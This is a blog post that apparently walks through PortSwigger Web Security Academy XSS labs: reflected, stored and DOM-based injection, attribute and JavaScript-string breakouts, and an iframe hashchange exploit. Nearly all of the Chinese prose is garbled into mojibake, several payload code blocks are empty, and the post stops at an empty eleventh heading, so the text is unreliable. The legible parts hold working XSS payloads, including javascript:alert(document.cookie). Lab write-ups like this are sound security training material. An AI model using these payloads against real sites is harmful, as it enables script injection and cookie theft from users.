+++
title = "PortSwigger XSS Labs 通关笔记"
date = 2026-11-13T09:00:00+08:00
draft = false
tags = ["XSS", "PortSwigger", "Web安全"]
categories = ["渗透测试"]
summary = "PortSwigger Web Security Academy XSS 实验通关记录：反射型、存储型、DOM 型、模板注入、CSP 绕过与点击劫持联动。"
ShowToc = true
TocOpen = false
+++
缁х画閫氬叧portswigger web security academy

鍒欑瘒鏂囩珷鏉ュ埌浜咰ross-site scripting锛坸ss锛夐儴鍒嗭紝鐢变簬寰堝棰樼洰瀵逛簬Firefox涓嶅吋瀹癸紝涔嬪悗浣跨敤chrome娴忚鍣?

1. #### Reflected XSS into HTML context with nothing encoded

   

   鏈€鍩虹鐨剎ss锛屽埄鐢ㄧ綉椤典笂涓嶇粡杩囪繃婊ょ洿鎺ュ皢鐢ㄦ埛杈撳叆鍐欏叆缃戦〉鐨勬紡娲烇紝閫氳繃杈撳叆鎭舵剰浠ｇ爜杩涜鏀诲嚮銆?

   鍦ㄦ悳绱㈡杈撳叆<script>alert(1)</script>

   

   鐢变簬瀵硅緭鍏ユ湭鍔犱互杩囨护锛岃緭鍏ヨ鐩存帴鎷兼帴鍒颁簡缃戦〉涓婏紝琚玥tml娴忚鍣ㄨВ鏋愶紝浠庤€屾墽琛宎lert(1)

   

   

2. #### Stored XSS into HTML context with nothing encoded

   

   杩欎竴棰樻潵鍒颁簡瀛樺偍鍨媥ss婕忔礊锛屾伓鎰忕敤鎴烽€氳繃涓婁紶鎭舵剰鍐呭锛屼娇鍏惰鍐欏叆椤甸潰锛屽鑷翠换浣曡闂綉绔欑殑鐢ㄦ埛閮戒細鏀跺埌鏀诲嚮

   

   鍦ㄨ瘎璁轰腑鍐欏叆

   <script>alert(1)</script>

   鍦ㄨ繖涔嬪悗浠讳綍璁块棶鑰呮墦寮€缃戦〉鏃堕兘浼氳Е鍙慳lert(1)

   

3. #### DOM XSS in `document.write` sink using source `location.search`

   

   鍦ㄨ繖涓€棰樹腑鍦ㄨ緭鍏ユ鐩存帴杈撳叆<script>alert(1)</script>骞舵病鏈夋晥鏋?[image-20261111174204991](09.png)

   閫氳繃鏌ョ湅椤甸潰浠ｇ爜鍙互鍙戠幇杩欎竴鍙ヤ腑灏栨嫭鍙疯缂栫爜浜?[image-20261111174701860](10.png)

   浣嗘槸缁撳悎棰樺共鍙互鍙戠幇鏈鏈夊彲浠ュ埄鐢ㄧ殑鍑芥暟

   浣挎煡璇负鎷兼帴鍦?img src="/resources/images/tracker.gif?searchTerms=鍚庡啓鍏ョ綉椤碉紝涓旀病鏈夊仛杩囨护澶勭悊銆?

   鍦ㄨ緭鍏ユ鍐呭～鍏?

   ```
   "> 
   ```

   浠庤€屽疄鐜版敾鍑?[image-20261111175704976](12.png)

4. #### DOM XSS in `innerHTML` sink using source `location.search`

   

   

   瑙傚療杩欎竴棰樼粰鍑虹殑鍑芥暟鍙互鍙戠幇锛岄鐩€氳繃js浠ｇ爜灏嗚緭鍏ュ啓鍏ョ洰鏍噑pan涓紝濡傛灉鐩存帴鍐欏叆<script>alert(1)</script>

   浼氬湪js浠ｇ爜鎵ц鍚庢墠浼氬啓鍏ワ紝鎵€浠ヨ緭鍏?

   ```
   
   ```

   

   鍒╃敤鍔犺浇鍥剧墖鏃惰幏鍙栧浘鐗囧け璐ユ姤閿欐墽琛宎lert(1)

5. #### DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

   

   瑙傚療杩欎竴棰樼殑鍑芥暟

   鍙互鍙戠幇锛屼細灏嗚繑鍥炵殑缃戝潃鏇挎崲涓洪€氳繃get鎻愪氦鐨剅eturnPath鐨勫€硷紝鏁呭皢鍏舵敼涓?

   ```
   javascript:alert(document.cookie)
   ```

   

   鍦ㄧ偣鍑籅ack鍚庨〉闈lert寮瑰嚭

6. #### DOM XSS in jQuery selector sink using a hashchange event

   

   鍦ㄤ富椤甸潰鍙互鎵惧埌鍑芥暟

   

   浼氬湪hash鍙樺寲鏃讹紝鎼滅储鍖归厤瀵瑰簲鐨勬枃绔犲苟鎺у埗椤甸潰婊氬姩杩囧幓銆傚悓鏃惰繖棰樹篃涓嶅啀鏄姹傚湪鏈満涓婂搷搴旓紝鑰屾槸閫氳繃鍦ㄦ湇鍔″櫒涓婏紝鏋勯€犲寘鍚椤甸潰鐨勬伓鎰忕綉绔欙紝骞跺湪鍙楀鑰呯偣鍑昏繘鍏ユ椂鍝嶅簲銆傚湪璇ョ綉绔欎腑浣跨敤iframe鍖呭惈鐩爣缃戠珯锛屽埄鐢╫nload鍦ㄥ姞杞藉畬鎴愬悗鏀瑰彉hash浠ヨЕ鍙戝嚱鏁帮紝鍚屾椂鏋勯€犳伓鎰忕殑hash鍊间互璋冪敤print()鍑芥暟銆?

   

   浣跨敤

   ```
   <iframe src='https://0a8700d0035e477080953a30006300cb.web-security-academy.net/' onload="this.src+='#'">
   ```

   灏嗗叾鍙戦€佺粰鍙楀鑰呭嵆鍙繃鍏筹紝涔熷彲浠ョ偣鍑籚iew exploit妫€鏌ユ晥鏋?

   

7. #### Reflected XSS into attribute with angle brackets HTML-encoded

   

   杩欎竴鍏宠浆鐮佷簡灏栨嫭鍙凤紝闇€瑕侀€氳繃鍐欏叆灞炴€у畬鎴愩€傚湪鎼滅储鏍忚緭鍏?

   ```
   <script>alert(1)</script>
   ```

   鍚庤瀵熺綉椤垫簮浠ｇ爜鍙互鍙戠幇

   灏栨嫭鍙疯杞爜涓篳&lt;`鍜宍&gt;`鍚屾椂鍦ㄦ悳绱㈡爮鐨剉alue涓～鍏ヤ簡鎼滅储鍊笺€傚彲浠ュ厛浣跨敤鍙屽紩鍙烽棴鍚坴alue鐨勫彇鍊硷紝鍐嶅湪涔嬪悗鐨勮鍙ヤ腑娣诲姞鏂扮殑鐩戝惉浜嬩欢锛屼互瑙﹀彂alert銆備娇鐢?

   ```
   " onmouseover="alert(1)
   ```

   鍗冲彲灏嗗叾鎷兼帴涓?

   ```
   <input type="text" placeholder="Search the blog..." name="search" value="" onmouseover="alert(1)">
   ```

   浠庤€屽湪榧犳爣鍦ㄥ叾涓婃柟鏃惰Е鍙戙€傞渶瑕佹敞鎰忕殑鏄繖棰樹娇鐢╫nclick,autofocus onfocus鍧囧彲鏄剧ず寮圭獥浣嗕笉绠楄繃鍏炽€?

8. #### Stored XSS into anchor `href` attribute with double quotes HTML-encoded

   

   杩欎竴棰樿姹傚湪鎻愪氦鐨勮瘎璁轰腑鐨勭敤鎴峰悕琚偣鍑绘椂寮瑰嚭alert銆傚湪闅忔剰椤甸潰鎻愪氦璇勮鍚庡彲浠ョ湅鍒?[image-20261111234147349](26.png)

   鐐瑰嚮鐢ㄦ埛鍚嶆椂缃戠珯涓烘彁浜ょ殑绗洓椤筗ebsite锛屾晠浣跨敤JavaScript:alert(1)鍗冲彲瀹屾垚

9. #### Reflected XSS into a JavaScript string with angle brackets HTML encoded

   

   

   灏濊瘯鎼滅储鍚庤瀵熸簮浠ｇ爜鍙彂鐜帮紝鎼滅储鍐呭鐨勫皷鎷彿琚紪鐮佸悗鎷兼帴杩涗簡JavaScript璇彞涓紝鏁呰緭鍏?

   ```
   '; alert(1); '
   ```

   灏嗚璇彞鎷兼帴涓?

   ```
   var searchTerms = ''; alert(1); '';
   ```

   鍗冲彲瑙﹀彂alert

10. #### DOM XSS in `document.write` sink using source `location.search` inside a select element

    

    鏍规嵁棰樺共鎵惧埌瀵瑰簲鐨勫嚱鏁?[image-20261112012002526](31.png)

    鍙互鐪嬪埌璇ュ嚱鏁颁細灏唃et鍙傛暟storeId鍐欏叆鍒扮綉椤典笂锛屼笖娌℃湁缁忚繃杩囨护鎴栬浆鎰忥紝鎵€浠ュ湪url鍚庡姞涓?

    ```
    &storeId=<script>alert(1)</script>
    ```

    涔嬪悗璁块棶缃戝潃鍗冲彲閫氬叧

11. #### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

